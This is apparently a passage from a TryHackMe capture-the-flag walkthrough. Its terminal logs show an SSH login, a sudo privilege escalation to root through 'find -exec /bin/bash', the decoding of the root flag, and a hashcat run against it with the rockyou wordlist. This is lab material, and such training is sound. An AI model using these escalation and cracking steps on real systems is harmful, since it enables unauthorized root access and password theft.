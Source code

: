 ```
kali@kali:~/CTFs/tryhackme/Tony the Tiger/jboss$ ssh jboss@10.10.179.44
The authenticity of host '10.10.179.44 (10.10.179.44)' can't be established.
ECDSA key fingerprint is SHA256:4QLWqzX1KRYhF9PwQBGqNaH5mOk6uuV8QwfHDP7Wgqk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.44' (ECDSA) to the list of known hosts.
jboss@10.10.179.44's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
jboss@thm-java-deserial:~$ pwd
/home/jboss
jboss@thm-java-deserial:~$ ls
note
jboss@thm-java-deserial:~$ sudo -l
Matching Defaults entries for jboss on thm-java-deserial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jboss may run the following commands on thm-java-deserial:
    (ALL) NOPASSWD: /usr/bin/find
jboss@thm-java-deserial:~$ sudo find . -exec /bin/bash \; -quit
root@thm-java-deserial:~# cd /root
root@thm-java-deserial:/root# ls
root.txt
root@thm-java-deserial:/root# cat root.txt 
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
root@thm-java-deserial:/root# cat root.txt | base64 -d
BC77AC072EE30E3760806864E234C7CF
```

```
kali@kali:~/CTFs/tryhackme/Tony the Tiger$ hashcat -a 0 -m 0 BC77AC072EE30E3760806864E234C7CF /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
```